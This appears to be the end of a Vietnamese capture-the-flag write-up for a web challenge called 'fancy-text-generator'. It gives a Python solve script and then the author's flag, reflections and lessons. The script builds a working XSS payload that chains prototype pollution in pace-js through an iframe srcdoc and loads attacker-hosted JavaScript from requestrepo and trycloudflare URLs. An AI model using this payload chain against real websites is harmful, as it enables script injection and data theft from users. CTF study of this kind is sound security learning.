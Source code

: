 ```python
url ="https://fancy-text-generator-web.shared.challs.mt"

options = ""

#htmls = '''<img id="data-pace-options" data-pace-options='{"__proto__": {"polluted": ""}}'><script>alert()</img>'''

def html_encode(s):
    return s.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace('"', "&quot;").replace("'", "&#39;")

payload ='''aaaa\\"><iframe srcdoc =\\"<img id=&amp;quot;data-pace-options&amp;quot; data-pace-options=&amp;#39;{&amp;quot;__proto__&amp;quot;: {&amp;quot;polluted&amp;quot;: &amp;quot;https://nj2n2pew.requestrepo.com/ex.js&amp;quot;}}&amp;#39;><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><script crossorigin=&amp;quot;anonymous&amp;quot;integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;https://commissioners-mozilla-messenger-compressed.trycloudflare.com/loader.js&amp;quot;></script>\\">'''
htmls = f'<img id="data-pace-options" data-pace-options=\'{{"startOnPageLoad":true,"__proto__":{{"polluted":"https://nj2n2pew.requestrepo.com/ex.js"}},"className": "{payload}"}}\'>'
text =  htmls + '<a id ="contentBox">'
res = requests.get(url,params={"text":text})
print(res.text)
print(payload)
print(url + "?text=" + urllib.parse.quote(text))

```
Dùng script với cross-origin = anonymous để request cors enabled.
Đến đây là xong bài rùi ...

flag : 
**maltactf{oops_my_dependency_is_buggy_05b19465ce19db4e28ddb00bb19f101e}**
# Cảm nhận : 
- Giải này khá là khoai :vv mới câu 2 thui mà mình đã quá ngu ròi. Thi xong sẽ quay lại làm mấy câu còn lại bruhh.
# Sai lầm :
1. Không kiểm tra hết input vào một app
2. Quá tin tưởng vào package latest :(
3. Skill issue khi làm việc với html entity encode

# New knowledge : 
-  Object prototype in latest pace-js
-  Enumerable inherit trong for in và vâng vâng
-  Script intergrity check 

# Audit sau giải
- Dompurify id "script" and "scripts"
- Style with background can make xs leak with no csp ? --